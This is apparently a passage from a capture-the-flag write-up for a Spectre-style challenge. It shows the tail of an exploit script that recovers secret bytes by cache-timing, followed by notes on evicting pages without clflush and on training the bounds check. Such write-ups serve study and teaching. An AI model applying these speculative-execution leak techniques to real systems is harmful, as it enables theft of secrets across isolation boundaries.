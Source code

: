 ```python
        for i in range(len(tmp)):
            if tmp[i] < threshold and ok(i):
                score[i] += 1
        if not chk(score) == -1:
            result += chr(chk(score))
            if idx == 0x10:
                return result
            idx += 1
            clr(score)
        count += 1
        printlist(tmp)
        print 'result: ' + result
        print 'count:  ' + str(count)

def printlist(result):
    pstream = ''
    for i in range(0x100):
        pstream += hex(i) + ': ' + hex(result[i]).ljust(5) + '\t'
        if i % 8 == 0 and not i == 0:
            pstream += '\n'
    print pstream



if __name__ == '__main__':
    if len(sys.argv) > 1:
        secret = int(sys.argv[1])
    else:
        secret = 0

    if not DEBUG:
        explode()

    if DEBUG:
        main(secret)
        result = []
        for i in range(0x100):
            result.append(u64(p.recv(8)))
        printlist(result)
```

The stage is well devided in main function, and I'll explain some points which I think is important.

Firstly, we can't call \_mm\_clflush in this binary, which is used in spectre's exploit to flush a page out of cpu cache. So we have to find a method to do the same thing. In my exploit, I do this by constantly accessing the pages we don't need. In function cache\_clear, I use memory from offset 0x101000 to 0x1fff000 (the base is 0x414100000000), which is far more than the cache size of cpu (which is usually 3M). When the cache is full, it will clear out the pages we care about, which is page from offset 0x00 to 0x100000, exactly 0x100 pages, corresponding to 0x100 ascii character.

Secondly, training builtin\_bc should directly repeat in assembly level, not loop, which will bring some unexpected problems.
